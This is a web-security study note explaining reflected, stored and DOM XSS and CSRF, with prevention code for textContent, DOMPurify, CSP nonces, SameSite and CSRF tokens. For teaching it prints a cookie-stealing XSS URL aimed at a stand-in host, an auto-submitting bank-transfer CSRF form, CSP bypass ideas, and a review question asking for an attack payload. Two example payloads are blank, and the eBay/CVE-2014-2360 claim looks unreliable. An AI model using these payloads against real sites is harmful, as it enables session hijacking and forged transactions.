

# 💉 XSS and CSRF

> [!abstract] TL;DR
> XSS (Cross-Site Scripting) injects malicious scripts into web pages viewed by other users. Three variants: reflected (payload in request, echoed in response), stored (payload persisted in DB), and DOM-based (payload processed by client-side JavaScript without touching the server). Fix: use `textContent` over `innerHTML`, sanitise with DOMPurify, implement CSP with `script-src 'self'`. CSRF (Cross-Site Request Forgery) tricks authenticated users into submitting forged requests. Fix: SameSite=Strict/Lax cookie attribute, synchronised CSRF tokens, double-submit cookie pattern. SameSite Lax (default in Chrome since 2020) blocks CSRF in most cases but has navigational GET bypass nuances.

---

## Intuition — Analogy First

XSS is like poisoning the public bulletin board in a shopping mall: you post a message that looks like a legitimate store announcement, but contains a hidden instruction that steals wallets from anyone who reads it. The bulletin board (web server) doesn't realise the message is malicious; it just displays it. Every visitor's browser executes the hidden instruction in the context of the trusted domain.

CSRF is a different attack: you send a forged letter to a bank, signed with someone else's legitimate signature (their session cookie). The bank can't tell the difference between a real letter from the customer and your forged one — because the customer's cookie is automatically attached by the browser. The fix is to require a secret that only the customer knows (CSRF token) or to make the browser not attach cookies on cross-site requests (SameSite).

---

## How It Works



---

## Key Concepts / Details

### Reflected XSS

Payload sent in the HTTP request and reflected in the response without sanitisation:

```
Attacker sends victim: https://bank.com/search?q=<script>document.location='https://evil.com/steal?c='+document.cookie</script>

Server response:
<h1>Search results for: <script>document.location='...'</script></h1>
```

The victim's browser executes the script in the context of `bank.com`, sending their session cookie to `evil.com`. Requires social engineering to deliver the link.

### Stored XSS

Payload is saved to the database and served to all subsequent visitors:

```
# Attacker posts a comment:
Comment: 

# All users who view the comment page execute the onerror handler
```

Impact multiplier: one stored XSS payload affects every user who visits the page. Self-propagating "XSS worms" (e.g., Samy worm on MySpace, 2005, infected 1 million profiles in 20 hours).

### DOM-Based XSS

Payload is processed entirely by client-side JavaScript, never sent to the server:

```javascript
// Vulnerable code: reads URL hash and sets innerHTML
document.getElementById('output').innerHTML = location.hash.substring(1);

// Attack URL:
https://victim.com/page#
```

The server never sees the `#` fragment. Traditional WAFs and server-side filters are completely blind to DOM XSS.

**DOM XSS sources** (attacker-controlled input):
- `location.hash`, `location.search`, `location.pathname`
- `document.referrer`
- `window.name`
- `postMessage` data

**DOM XSS sinks** (dangerous functions):
- `innerHTML`, `outerHTML`, `document.write()`
- `eval()`, `setTimeout(string)`, `setInterval(string)`
- `src` attribute of `<script>`, `href` of `<a>`

### XSS Prevention

```javascript
// BAD: innerHTML with user data
element.innerHTML = userInput;

// GOOD: textContent (no HTML parsing)
element.textContent = userInput;

// GOOD: DOMPurify sanitisation (when HTML rendering is required)
const clean = DOMPurify.sanitize(userInput, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong'],
  ALLOWED_ATTR: []
});
element.innerHTML = clean;
```

**Content Security Policy (CSP)** — The last line of XSS defence:
```http
Content-Security-Policy: default-src 'self';
  script-src 'self' https://cdn.trusted.com;
  style-src 'self' 'unsafe-inline';
  img-src *;
  object-src 'none';
  base-uri 'self';
  report-uri /csp-report
```

CSP bypass techniques attackers use:
- `'unsafe-inline'`: allows inline scripts — CSP provides no XSS protection
- Whitelisted CDN domains hosting Angular/jQuery: `<script src="https://cdn.angular.io/angular.js">` enables data-ng-focus bypass
- `'unsafe-eval'`: allows eval() — negates CSP's purpose for JS-heavy apps

**Nonce-based CSP** (best practice):
```html
<!-- Server generates random nonce per request -->
<meta http-equiv="Content-Security-Policy" 
      content="script-src 'nonce-r4nd0m5tr1ng'">

<!-- Only scripts with matching nonce execute -->
<script nonce="r4nd0m5tr1ng">
  // Legitimate script
</script>

<!-- Attacker's injected script has no nonce → blocked -->
<script>evil()</script>
```

### CSRF — Cross-Site Request Forgery

Attacker hosts a page that automatically submits a form to the victim's authenticated site:

```html
<!-- Attacker's page at evil.com -->
<form action="https://bank.com/transfer" method="POST" id="csrf">
  <input name="amount" value="10000">
  <input name="to_account" value="attacker_account">
</form>
<script>document.getElementById('csrf').submit();</script>
```

When victim visits evil.com while logged into bank.com, the form submits with the victim's bank.com session cookie (auto-attached by browser for same-domain).

### SameSite Cookie Attribute

| SameSite Value | Cross-Site GET | Cross-Site POST | Top-level Navigation GET |
|---------------|---------------|----------------|--------------------------|
| `Strict` | Blocked | Blocked | Blocked |
| `Lax` (Chrome default) | Blocked | Blocked | Allowed |
| `None; Secure` | Allowed | Allowed | Allowed |

Chrome made `SameSite=Lax` the default in 2020, blocking CSRF for POST requests. However, `Lax` allows cross-site GET navigations — CSRF via GET requests (URL-based state changes) are still possible.

**Double-submit cookie pattern**:
```javascript
// Server sets CSRF token as cookie + in response body
Set-Cookie: csrf=<random_token>; SameSite=Strict
<input type="hidden" name="csrf_token" value="<same_random_token>">

// Attacker on evil.com cannot read the cookie (SOP prevents this)
// They cannot forge the matching hidden field value
// Server validates cookie == hidden field value
```

**CSRF tokens in stateless APIs**:
```javascript
// Server-side: generate per-session token
const csrfToken = crypto.randomBytes(32).toString('hex');
req.session.csrfToken = csrfToken;

// Client-side: include in request header (not cookie)
fetch('/api/transfer', {
  method: 'POST',
  headers: {
    'X-CSRF-Token': getCsrfTokenFromMeta(),
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({ amount: 100, to: 'account' })
});
```

Custom headers (like `X-CSRF-Token`) cannot be sent by simple HTML forms — only same-origin AJAX can set custom headers. This inherently prevents CSRF for APIs using custom headers, even without CSRF tokens.

---

## Real-World Notes

- The 2014 eBay stored XSS (CVE-2014-2360) affected 145 million users; attackers injected XSS via product descriptions
- Twitter stored XSS "onMouseOver" worm (2010): a tweet containing `<a onmouseover="alert()">` spread to thousands of accounts in minutes
- Google's XSS Game (xss-game.appspot.com) is an excellent sandbox for learning all XSS types
- SameSite=Lax doesn't protect against CSRF if your application uses GET requests for state-changing operations (anti-pattern but common in legacy apps)

---

## Common Pitfalls

1. **Server-side sanitisation only** — DOM XSS bypasses all server-side filtering; sanitise at output (JavaScript side) too
2. **`unsafe-inline` in CSP** — A CSP with `unsafe-inline` provides zero protection against XSS; use nonces or hashes instead
3. **CSRF tokens in cookies** — The token must be in a non-cookie mechanism (header, body); a CSRF token that the attacker can read from `document.cookie` is useless
4. **Forgetting AJAX CSRF** — AJAX requests with `withCredentials: true` send cookies; CSRF tokens are still needed if the server accepts credentials on CORS pre-flighted requests

---

## Related Concepts

- [[OWASP_Top_10|← OWASP Top 10]] — A03 Injection category
- [[JWT_and_OAuth|→ JWT & OAuth]] — XSS can steal JWTs from localStorage
- [[API_Security|→ API Security]] — CSRF considerations for REST APIs
- [[_MOC_Web_Security|↑ Web Security MOC]]

---

## Review Questions

1. A React application stores JWT tokens in `localStorage`. Explain how a reflected XSS on any page of the application allows full session takeover, and why `HttpOnly` cookies would prevent this specific attack.
2. A CSP policy is: `script-src 'self' https://cdnjs.cloudflare.com`. Describe two concrete bypass techniques an attacker could use if they can inject HTML.
3. A legacy banking application changes account transfer limits via a GET request: `GET /settings?max_transfer=50000`. SameSite=Lax cookies are set. Is this vulnerable to CSRF? Write the attack payload.

---

## Sources

- OWASP XSS Prevention Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- DOMPurify: https://github.com/cure53/DOMPurify
- CSRF Prevention Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html

#Cybersecurity #WebSecurity #XSS #CSRF #CSP #SameSite #DOMPurify
